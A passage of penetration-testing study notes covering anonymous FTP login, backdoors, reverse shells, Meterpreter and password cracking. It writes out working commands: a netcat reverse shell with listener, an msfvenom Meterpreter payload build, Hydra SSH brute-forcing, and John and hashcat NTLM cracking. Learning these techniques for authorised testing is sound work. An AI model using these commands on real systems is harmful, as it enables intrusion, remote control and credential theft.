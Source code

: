         ```bash
        ftp 192.168.1.100
        # Username: anonymous
        # Password: any@email.com
        ```
        

---

## Backdoors, Reverse Shells, and Meterpreter

- **Backdoor:** A hidden entry point into a system for persistent access.
- **Reverse Shell:** A shell where the target connects back to the attacker.
    - **Netcat Example:**
        
        ```bash
        nc -lvnp 4444  # Listener
        nc 192.168.1.10 4444 -e /bin/bash  # Target
        ```
        
- **Meterpreter:** A Metasploit payload for advanced post-exploitation.
    - **Command:**
        
        ```bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe
        ```
        

---

## Password Cracking Approaches

- **Brute-Forcing:** Tries all possible combinations.
    - **Hydra Example:**
        
        ```bash
        hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
        ```
        
- **Dictionary Attack:** Uses a pre-defined wordlist.
    - **John Example:**
        
        ```bash
        john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
        ```
        
- **Rainbow Attack:** Uses precomputed hash tables to crack passwords faster.
- **Difference:** Brute-forcing is exhaustive, while dictionary attacks are faster but limited to the wordlist. Rainbow attacks are optimized for speed but require precomputed tables.

### NTLM

- **Definition:** A Windows authentication protocol using hashes.
- **Cracking Example:**
    
    ```bash
    hashcat -m 1000 ntlm_hash.txt /usr/share/wordlists/rockyou.txt
    ```